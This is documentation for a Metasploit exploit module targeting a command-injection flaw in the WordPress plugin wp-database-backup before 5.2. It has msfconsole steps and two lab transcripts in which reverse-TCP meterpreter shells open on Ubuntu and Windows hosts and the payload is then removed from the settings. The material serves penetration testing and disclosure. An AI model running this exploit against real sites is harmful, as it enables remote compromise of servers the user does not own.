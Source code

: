 ## Description

  There exists a command injection vulnerability in the Wordpress plugin `wp-database-backup` for versions < 5.2.
  
  For the backup functionality, the plugin generates a `mysqldump` command to execute. The user can choose specific
  tables to exclude from the backup by setting the `wp_db_exclude_table` parameter in a POST request to the
  `wp-database-backup` page. The names of the excluded tables are included in the `mysqldump` command unsanitized.

  Arbitrary commands injected through the `wp_db_exclude_table` parameter are executed each time the functionality
  for creating a new database backup are run.

## Vulnerable Application

  The `wp-database-backup` plugin < `v5.2`. The plugin can be found [here](https://wordpress.org/plugins/wp-database-backup/).
  Older versions of the software can be found via the `advanced` view on the plugin's main page.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/wp_db_backup_rce```
  4. Do: ```set RHOSTS <ip>```
  5. Do: ```set USERNAME <user>```
  6. Do: ```set PASSWORD <password>```
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

### Tested on wp-database-backup v4.6.5 running Wordpress 5.1 on Ubuntu 18.04

  ```
  msf5 exploit(multi/http/wp_db_backup_rce) > set target 1
  target => 1
  msf5 exploit(multi/http/wp_db_backup_rce) > set rhosts 192.168.37.147
  rhosts => 192.168.37.147
  msf5 exploit(multi/http/wp_db_backup_rce) > set payload linux/x86/meterpreter/reverse_tcp
  payload => linux/x86/meterpreter/reverse_tcp
  msf5 exploit(multi/http/wp_db_backup_rce) > check

  [*] Version of wp-database-backup detected: 4.6
  [*] 192.168.37.147:80 - The target appears to be vulnerable.
  msf5 exploit(multi/http/wp_db_backup_rce) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [+] Reached the wp-database-backup settings page
  [+] Successfully added payload as an excluded table
  [*] Sending stage (985320 bytes) to 192.168.37.147
  [*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.147:48398) at 2019-06-25 11:05:27 -0500
  [+] Successfully created a backup of the database
  [+] Successfully deleted the database backup
  [+] Successfully deleted the payload from the excluded tables list

  meterpreter > getuid
  Server username: uid=33, gid=33, euid=33, egid=33
  meterpreter > sysinfo
  Computer     : 192.168.37.147
  OS           : Ubuntu 18.04 (Linux 4.18.0-15-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

### Tested on wp-database-backup v4.6.5 running Wordpress 5.2 on Windows 10

  ```
  msf5 > use exploit/multi/http/wp_db_backup_rce 
  msf5 exploit(multi/http/wp_db_backup_rce) > set rhosts 192.168.37.144
  rhosts => 192.168.37.144
  msf5 exploit(multi/http/wp_db_backup_rce) > set payload windows/x64/meterpreter/reverse_tcp
  payload => windows/x64/meterpreter/reverse_tcp
  msf5 exploit(multi/http/wp_db_backup_rce) > set username user
  username => user
  msf5 exploit(multi/http/wp_db_backup_rce) > set password password
  password => password
  msf5 exploit(multi/http/wp_db_backup_rce) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(multi/http/wp_db_backup_rce) > check

  [*] Version of wp-database-backup detected: 4.6
  [*] 192.168.37.144:80 - The target appears to be vulnerable.
  msf5 exploit(multi/http/wp_db_backup_rce) > run

  [*] Started reverse TCP handler on 192.168.37.1:4444 
  [+] Reached the wp-database-backup settings page
  [+] Successfully added payload as an excluded table
  [*] Sending stage (206403 bytes) to 192.168.37.144
  [*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.144:49844) at 2019-06-25 11:01:22 -0500
  [+] Successfully created a backup of the database
  [+] Successfully deleted the database backup
  [+] Successfully deleted the payload from the excluded tables list

  meterpreter > getuid
  Server username: DESKTOP-RTVVNST\Shelby Pace
  meterpreter > sysinfo
  Computer        : DESKTOP-RTVVNST
  OS              : Windows 10 (Build 16299).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x64/windows
  ```
